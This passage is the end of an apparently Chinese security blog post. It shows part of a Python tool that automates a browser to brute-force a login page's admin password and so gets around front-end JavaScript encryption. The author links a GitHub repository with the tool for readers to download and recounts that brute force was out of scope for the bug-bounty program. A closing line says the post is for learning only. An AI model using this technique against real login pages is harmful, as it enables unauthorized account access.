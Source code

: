 ```
self.response_result.append(_response['content']['text'])
self.result = dict(zip(self.password_list, self.response_result))
def result_handing(self):
for key,value in self.result.items():
print("密码：{key} :结果：{result}".format(key=key,result=value))
def end_env(self):
try:
self.server.stop()
self.chrome.quit()
find_netstat = os.popen("netstat -ano | findstr 8080")#开的什么端口杀什么端口的进程
pid = find_netstat.read().split()[4]
kail_pid = os.popen("taskkill /F /PID {PID}".format(PID=pid))
print(kail_pid.read())
return 1
except IndexError as e:
return 0

Brower = Brower_scan(url,'admin','password.txt')
```

这里仅仅把这种方式利用在密码爆破上面, 但是实际的利用场景远不止这些, 我觉得可以利用任何 js 加密, jq 加密的, 前端加密的场景, 都可以用到, 根本不需要去分析它的 js 前端加密代码, 只需要把爆破行为模拟正常的用户行为就欧克了, 不得不说, 这种智能的方式真的太方便了! 太香了!!!!!!!!

  

github 已经上传了一个我已经写好的爆破登录界面账号和密码的, 大家可以去下载自行享用!

```
https://github.com/Gamma-laboratory/JsFak

现在只支持通过class来查找输入框和登录按钮，如果需要通过id或其他标识，可以修改源码
```

  

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODvk2MdIBrC2R70aymoojOffSAGOgI4DeNEPu292xKXVje015DiaFV2FicdxhwzRSQXJgN2lktcoWatQ/640?wx_fmt=gif)

**后果**

正当我美滋滋的撰写报告, 准备提交的时候, 我突然发现这个项目明文规定了, 枚举用户名爆破不在收录漏洞范畴之内!!!!!

漂亮!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!, 来世还做安全!

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODvk2MdIBrC2R70aymoojOffCjuRibOGedLeWZg6ysKDa0vSsRCtlu3VDtKAZTvDHibuYlVRClAW0rGA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

END

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtIZ5VYusLbEoY8iaTjibTWg6AKjAQiahf2fctN4PSdYm2O1Hibr56ia39iaJcxBoe04t4nlYyOmRvCr56Q/640?wx_fmt=gif)

**看完记得点赞，关注哟，爱您！**

**请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**
